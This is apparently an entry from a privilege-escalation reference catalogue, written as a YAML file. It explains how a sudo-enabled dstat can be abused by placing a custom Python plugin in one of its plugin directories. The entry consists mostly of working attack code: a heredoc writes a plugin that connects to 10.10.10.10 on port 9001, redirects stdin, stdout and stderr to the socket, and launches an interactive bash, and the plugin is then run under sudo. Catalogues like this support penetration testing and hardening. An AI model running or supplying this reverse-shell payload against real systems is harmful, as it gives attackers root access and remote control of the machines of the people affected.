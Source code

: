 ```yaml
---
functions:
  sudo:
    - description: |
        Spawn interactive root shell by loading a custom plugin.

        Dstat allows you to run arbitrary python scripts loaded as "external plugins" if they are located in one of the directories stated in the dstat man page under "FILES":

        1. `~/.dstat/`
        2. `(path of binary)/plugins/`
        3. `/usr/share/dstat/`
        4. `/usr/local/share/dstat/`

        Given that you have write access to one of these directories, you can drop there a script `dstat_revshell.py` and tell dstat to run it like this:
      code: |
        cat >~/.dstat/dstat_revshell.py<<EOF
        #!/usr/bin/python3
        from os import dup2
        from subprocess import run
        import socket
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.10.10.10",9001))
        dup2(s.fileno(),0)
        dup2(s.fileno(),1)
        dup2(s.fileno(),2)
        run(["/bin/bash","-i"])
        EOF

        sudo dstat --revshell
---
```


